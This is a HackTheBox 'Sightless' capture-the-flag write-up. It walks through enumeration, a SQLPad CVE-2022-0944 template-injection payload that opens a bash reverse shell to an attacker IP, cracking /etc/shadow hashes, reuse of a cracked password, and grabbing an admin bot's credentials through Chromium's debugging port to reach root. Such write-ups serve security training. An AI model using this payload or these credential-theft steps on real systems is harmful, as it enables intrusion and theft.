


# HackTheBox - Sightless

 
 

## Table of Contents

- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
	- [Webserver](#Webserver)
	- [Subdomain](#Subdomain)
	- [SQLPad](#SQLPad)
- [Foothold](#Foothold)
	- [CVE-2022-0944](#CVE-2022-0944)
- [User](#User)
	- [Credential Harvesting](#Credential-Harvesting)
	- [Password Reuse](#Password-Reuse)
- [root](#root)
	- [Chromium Debugging Port](#Chromium-Debugging-Port)
	- [Froxlor](#Froxlor)

## Enumeration

### Portscan

As always, it starts with a standard port scan with Service Enumeration.

__Command:__ `nmap -p- -T4 -sV <IP>`

We see an open SSH server, web server and FTP server.

 

### Webserver

So I took a look at the web server and saw a page with some content.

So I started to enumerate the website and carefully went through my enumeration cheat sheet for websites.

 

### Subdomain

Using the tool `cewl`, which creates a custom word list based on a given URL, and gobuster, I found a subdomain called `sqlpad.sightless.htb`.

__Command:__ `gobuster vhost -u sightless.htb -w cewl.txt --append-domain`

Attention, the switch `--append-domain` is important for gobuster, otherwise it will not recognize the subdomain.

This can be very annoying if you think you have already tried to fuzz certain subdomains and you have just not found them because some servers react differently.

Alternatively, you can also fuzz with FFUF.

__Command:__ `ffuf -w cewl.txt -u http://sightless.htb/ -H "Host: FUZZ.sightless.htb" -fc 302`

 

### SQLPad

So I entered the subdomain and went on to `sqlpad.sightless.htb`.

As I was not familiar with this software, I started by clicking around wildly.

I looked at menus and functionalities.

Clicked on __top right__ -> __three dots__ -> __About__ to find out the exact version of SQLPad.

 
 
 

## Foothold

### CVE-2022-0944

A quick search also makes us aware that this version has a __SSTI / RCE__ vulnerability.

And a simple POC and exploit instruction could be found on [huntr.com](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb).

So as stated at huntr.io I tried to establish a reverse shell.

However, it took a long time until I succeeded.

It was important to wrap the reverse shell code again in `bash -c “”`.

And furthermore, as we will see in a moment, we are in a slimmed-down Docker, which in retrospect also explains why many reverse shell payloads did not work.

My working payload was the following:

`{{ process.mainModule.require('child_process').exec('bash -i >& /dev/tcp/<IP>/9001 0>&1') }}`

 
 
 

## User

I was operating as user `root`, but there was still no flag in sight.

We are in a Docker container...

So the next task was to escape from this container.

I started to enumerate the system.

 

### Credential Harvesting

And at some point I remembered that since we are already `root`, I should have a look at the `/etc/shadow` file.

I removed the hashes and cracked them with hashcat.

__Command:__ `hashcat -m 1800 shadow.txt rockyou.txt`

 

### Password Reuse

The Linux user `michael` was also present on the host system and used the same password.

I logged in to the host via SSH and fetched the first flag.

 
 
 

## root

I was stuck with the root part for a long time.

I enumerated, searched and misleaded myself to many things until I found the right thing.

The internal services were particularly interesting.

A short port forward to me: `ssh -L 8080:127.0.0.1:8080 michael@sightless.htb`.

And I saw that __Froxlor__ was on port 8080.

I tried to use the credentials found here again, but this did not work.

 

### Chromium Debugging Port

Well, it took me a long time to come up with this idea.

When I ran `linpeas.sh` for the second time, that output made me take a look at it.

With `ps aux` we can take a closer look at the chromium processes.

I did some research on the internet and found various interesting articles that it is possible under certain conditions (which are given here) to access cookies via the chromium debugging port or to listen to chromium.

I forwarded the used debugging port from chromium to me.

In chromium from burp we go via url to __chrome://inspect/__ and click on __Configure__.

 
Interesting activity could already be seen here.

At __inspect__ it went more interesting.

Here you could see how the simulated admin-bot enters his access data into the Flroxlor login panel.

The credentials can be viewed under __Network__ -> __Payload__ in the POST requests made by the admin bot.

 

### Froxlor

Now I was able to log in to Froxlor.

Froxlor had quite a few menus, settings and functionalities to discover.

I went through the menus looking for information and ways to somehow exploit this application in my favor.

Under the section __PHP__ -> __PHP-FPM versions__ I managed to create a test file and got the PoC that we can issue commands here as root.

The same procedure again to establish a reverse shell.

And the final root flag was raised.

